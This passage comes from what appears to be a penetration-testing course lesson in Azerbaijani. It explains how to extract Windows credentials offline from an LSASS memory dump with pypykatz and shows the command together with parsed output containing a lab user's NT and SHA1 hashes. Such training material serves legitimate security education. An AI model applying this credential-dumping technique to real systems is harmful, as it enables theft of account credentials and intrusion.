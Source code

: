 **Qeyd:** `lsass.dmp` faylını hədəfdən hücumçu hostumuza almaq üçün SAM-a Hücum bölməsində müzakirə olunan fayl ötürmə metodundan istifadə edə bilərik.

### Etimadnamələri Çıxarmaq üçün Pypykatz İstifadəsi

*Dump* faylı hücumçu hostumuzda olduqdan sonra, **`.dmp`** faylından etimadnamələri çıxarmaq üçün **pypykatz** adlı güclü bir alətdən istifadə edə bilərik. **Pypykatz** tamamilə Python-da yazılmış **Mimikatz**-ın bir tətbiqidir. Python-da yazılmış olması bizə onu Linux əsaslı hücumçu hostlarında işlətməyə imkan verir. Yazıldığı vaxtda, Mimikatz yalnız Windows sistemlərində işləyir, buna görə də onu istifadə etmək üçün ya Windows hücumçu hostuna ehtiyacımız olacaq, ya da Mimikatz-ı birbaşa hədəfdə işlətməyə ehtiyacımız olacaq ki, bu da ideal bir ssenari deyil. Bu, **Pypykatz**-ı cəlbedici bir alternativ edir, çünki bizə lazım olan tək şey *dump* faylının kopyasıdır və biz onu Linux əsaslı hücumçu hostumuzdan oflayn rejimdə işlədə bilərik.

Xatırlayın ki, LSASS Windows sistemlərində **aktiv loqin seanslarına** aid etimadnamələri saxlayır. LSASS proses yaddaşını fayla *dump* etdiyimiz zaman, əslində o anda yaddaşda olanların "anlıq şəklini" çəkmiş olduq. Əgər hər hansı bir aktiv loqin seansı varsa, onları yaratmaq üçün istifadə olunan etimadnamələr orada olacaq. Gəlin, *dump* faylına qarşı Pypykatz-ı işə salaq və nəticələri öyrənək.

#### Pypykatz-ı İşə Salmaq

Əmr, LSASS proses yaddaşı *dump*-ında gizlənmiş sirləri *parse* etmək üçün **pypykatz**-ın istifadəsini başladır. Əmrdə **`lsa`** istifadə edirik, çünki LSASS Yerli Təhlükəsizlik Orqanının bir alt sistemidir, sonra məlumat mənbəyini **`minidump`** faylı kimi göstəririk, ardınca isə hücumçu hostumuzda saxlanılan *dump* faylının yolu gəlir. Pypykatz *dump* faylını *parse* edir və tapıntıları çıxarır:

```
nijatmansimov@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
```